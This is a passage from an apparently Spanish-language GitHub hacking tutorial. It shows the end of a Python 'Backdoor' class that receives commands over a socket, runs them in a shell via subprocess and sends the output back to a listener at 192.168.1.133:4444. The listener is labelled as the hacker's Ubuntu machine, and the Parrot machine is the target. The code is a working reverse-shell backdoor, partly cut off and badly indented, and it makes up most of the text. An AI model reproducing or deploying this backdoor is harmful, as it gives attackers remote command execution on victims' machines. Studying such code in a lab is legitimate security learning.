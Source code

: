 ```bash
return json.loads(json_data) 

          except ValueError: 

                  continue 

 

    def ejecutar_comando(self,comando): 

           return subprocess.check_output(comando,shell=True) 

 
 
 

   def run(self): 

          while True: 

 
 

comando = self.reception_segura() 

resultado_comando = self.ejecutar_comando(comando) 

self.envio_seguro(resultado_comando.decode("utf-8")) 

          self.connection.close() 

 
 

backdoor = Backdoor("192.168.1.133",4444) 

backdoor.run() 
```

# Parrot (Target) 

![envio de datos con json parrot](https://user-images.githubusercontent.com/97669969/157430267-679c5134-3815-4b01-aad7-526aece66a58.png)


# Ubuntu (Hacker)

![json ubuntu](https://user-images.githubusercontent.com/97669969/157430358-2b565c49-fb47-431d-b164-766bb49849f8.png)
* Listo, vamos mejorando aun mas.
